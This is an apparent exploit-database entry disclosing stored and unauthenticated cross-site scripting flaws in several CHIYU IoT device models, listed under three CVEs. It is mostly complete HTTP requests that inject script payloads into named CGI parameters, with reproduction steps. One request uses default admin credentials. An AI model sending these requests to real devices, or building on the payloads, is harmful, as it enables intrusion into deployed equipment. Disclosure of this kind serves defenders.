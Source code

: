 XSS
---

    # Exploit Title: CHIYU IoT devices - 'Multiple' Cross-Site Scripting (XSS)
    # Date: May 31 2021
    # Exploit Author: sirpedrotavares
    # Vendor Homepage: https://www.chiyu-tech.com/msg/msg88.html
    # Software Link: https://www.chiyu-tech.com/category-hardware.html
    # Version: BF-430,  BF-431,  BF-450M,  BF-630, BF631-W, BF830-W, Webpass, BF-MINI-W, and SEMAC - all firmware versions < June 2021
    # Tested on: BF-430,  BF-431,  BF-450M,  BF-630, BF631-W, BF830-W, Webpass, BF-MINI-W, and SEMAC
    # CVE:  CVE-2021-31250 / CVE-2021-31641 / CVE-2021-31643
    # Publication: https://seguranca-informatica.pt/dancing-in-the-iot-chiyu-devices-vulnerable-to-remote-attacks

    Description: Several versions and models of CHIYU IoT devices are vulnerable to multiple Cross-Site Scripting flaws.

    #1:  Multiple stored XSS in CHIYU BF-430, BF-431, and BF-450M IP converter devices
    CVE ID: CVE-2021-31250
    CVSS: Medium – CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:L/I:N/A:N
    URL: https://gitbook.seguranca-informatica.pt/cve-and-exploits/cves/chiyu-iot-devices#cve-2021-31250

    ============= PoC 01 ===============
    Affected parameter: TF_submask
    Component: if.cgi
    Payload: "><script>alert(123)</script>

    HTTP Request:
    GET
    /if.cgi?redirect=setting.htm&failure=fail.htm&type=ap_tcps_apply&TF_ip=443&TF_submask=0&TF_submask=%22%3E%3Cscript%3Ealert%28123%29%3C%2Fscript%3E&radio_ping_block=0&max_tcp=3&B_apply=APPLY
    HTTP/1.1
    Host: 192.168.187.12
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101
    Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://192.168.187.12/ap_tcps.htm
    Authorization: Basic OmFkbWlu
    Connection: close
    Upgrade-Insecure-Requests: 1


    Steps to reproduce:
      1. Navigate to the vulnerable device
      2. Make a GET request to component mentioned (if.cgi)
      3. Append the payload at the end of the vulnerable parameter (TF_submask)
      4. Submit the request and observe payload execution

      ============= PoC 02 ===============
    Affected parameter: TF_hostname=Component: dhcpc.cgi
    Payload: /"><img src="#">
    HTTP request and response:

    HTTP Request:
    GET
    /dhcpc.cgi?redirect=setting.htm&failure=fail.htm&type=dhcpc_apply&TF_hostname=%2F%22%3E%3Cimg+src%3D%22%23%22&S_type=2&S_baud=3&S_userdefine=0&AP_type=0&TF_port=443&TF_remoteip1=%2F%22%3E%3Cimg+src%3D%22%23%22%3E&B_apply=APPLY
    HTTP/1.1
    Host: 192.168.187.12
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101
    Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://192.168.187.12/wan_dc.htm
    Authorization: Basic OmFkbWlu
    Connection: close
    Upgrade-Insecure-Requests: 1


    Steps to reproduce:
      1. Navigate to the vulnerable device
      2. Make a GET request to component mentioned (dhcpc.cgi)
      3. Append the payload at the end of the vulnerable parameter (TF_hostname)
      4. Submit the request and observe payload execution

      ============= PoC 03 ===============
    Affected parameter: TF_servicename=Component: ppp.cgi
    Payload: "><script>alert(123)</script>

    GET
    /ppp.cgi?redirect=setting.htm&failure=fail.htm&type=ppp_apply&TF_username=admin&TF_password=admin&TF_servicename=%22%3E%3Cscript%3Ealert%28%27123%27%29%3B%3C%2Fscript%3E&TF_idletime=0&L_ipnego=DISABLE&TF_fixip1=&TF_fixip2=&TF_fixip3=&TF_fixip4=&S_type=2&S_baud=3&S_userdefine=0&AP_type=0&TF_port=443&TF_remoteip1=0.0.0.0&B_apply=APPLY
    HTTP/1.1
    Host: 192.168.187.143
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101
    Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://192.168.187.143/wan_pe.htm
    Authorization: Basic OmFkbWlu
    Connection: close
    Upgrade-Insecure-Requests: 1


    Steps to reproduce:
      1. Navigate to the vulnerable device
      2. Make a GET request to component mentioned (ppp.cgi)
      3. Append the payload at the end of the vulnerable parameter
    (TF_servicename)
      4. Submit the request and observe payload execution

    ============= PoC 04 ===============
    Affected parameter: TF_port=Component: man.cgi
    Payload: /"><img src="#">

    GET
    /man.cgi?redirect=setting.htm&failure=fail.htm&type=dev_name_apply&http_block=0&TF_ip0=192&TF_ip1=168&TF_ip2=200&TF_ip3=200&TF_port=%22%3E%3Cimg+src%3D%22%23%22%3E&TF_port=%22%3E%3Cimg+src%3D%22%23%22%3E&B_mac_apply=APPLY
    HTTP/1.1
    Host: 192.168.187.12
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101
    Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://192.168.187.12/manage.htm
    Authorization: Basic OmFkbWlu
    Connection: close
    Upgrade-Insecure-Requests: 1


    Steps to reproduce:
      1. Navigate to the vulnerable device
      2. Make a GET request to component mentioned (man.cgi)
      3. Append the payload at the end of the vulnerable parameter (TF_port)
      4. Submit the request and observe payload execution



    #2:  Unauthenticated XSS in several CHIYU IoT devices
    CVE ID: CVE-2021-31641
    Medium - CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:N/A:N
    URL: https://gitbook.seguranca-informatica.pt/cve-and-exploits/cves/chiyu-iot-devices#cve-2021-31641


    Component: any argument passed via URL that results in an HTTP-404
    Payload: http://ip/<script>alert(123)</script>


    Steps to reproduce:
      1. Navigate to the webpage of the vulnerable device
      2. On the web-browsers, you need to append the payload after the IP
    address (see payload above)
      3. Submit the request and observe payload execution


    #3:  Stored XSS in CHIYU SEMAC, BF-630, BF-631, and Webpass IoT devices
    CVE ID: CVE-2021-31643
    Medium - CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:L/I:N/A:N
    URL: https://gitbook.seguranca-informatica.pt/cve-and-exploits/cves/chiyu-iot-devices#cve-2021-31643

    Affected parameter: username=
    Component: if.cgi
    Payload: "><script>alert(1)</script>

    HTTP request - SEMAC Web Ver7.2

    GET
    /if.cgi?redirect=EmpRcd.htm&failure=fail.htm&type=user_data&creg=0&num=&EmployeeID=0000&MarkID=0000&CardID=000000&username=%22%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&Card_Valid=0&SY=2021&SM=2&SD=7&sy_h=16&sy_m=23&EY=2021&EM=2&ED=7&sy_h=16&sy_m=23&Activate=5&Usertype=0&group_list1=1&group_list2=0&group_list3=0&group_list4=0&Verify=1&Password=&Retype=&card=0&card=0&card=0&card=0&card=0&card=116&card=9&card=138
    HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:87.0)
    Gecko/20100101 Firefox/87.0
    Accept:
    text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: pt-PT,pt;q=0.8,en;q=0.5,en-US;q=0.3
    Accept-Encoding: gzip, deflate
    Authorization: Basic YWRtaW46YWRtaW4=
    Connection: close
    Referer: http://127.0.0.1/EmpRcd.htm
    Cookie: fresh=; remote=00000000
    Upgrade-Insecure-Requests: 1


    HTTP request - BIOSENSE-III-COMBO(M1)(20000)

    GET
    /if.cgi?redirect=EmpRcd.htm&failure=fail.htm&type=user_data&creg=0&num=&EmployeeID=3&MarkID=3474&CardID=00000000&emp_id=&username=%22%2F%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&Card_Valid=0&SY=2019&SM=11&SD=25&sy_h=15&sy_m=0&EY=2019&EM=11&ED=25&sy_h=15&sy_m=0&Activate=5&Usertype=0&group_list1=1&group_list2=0&group_list3=0&group_list4=0&Verify=1&Password=&Retype=&card=0&card=0&card=0&card=0&card=118&card=5&card=101&card=110
    HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:87.0)
    Gecko/20100101 Firefox/87.0
    Accept:
    text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: pt-PT,pt;q=0.8,en;q=0.5,en-US;q=0.3
    Accept-Encoding: gzip, deflate
    Authorization: Basic YWRtaW46YWRtaW4=
    Connection: close
    Referer: http://127.0.0.1/EmpRcd.htm
    Cookie: fresh=
    Upgrade-Insecure-Requests: 1


    Steps to reproduce:
      1. Navigate to the vulnerable device
      2. Make a GET request to component mentioned (if.cgi)
      3. Append the payload at the end of the vulnerable parameter (username)
      4. Submit the request and observe payload execution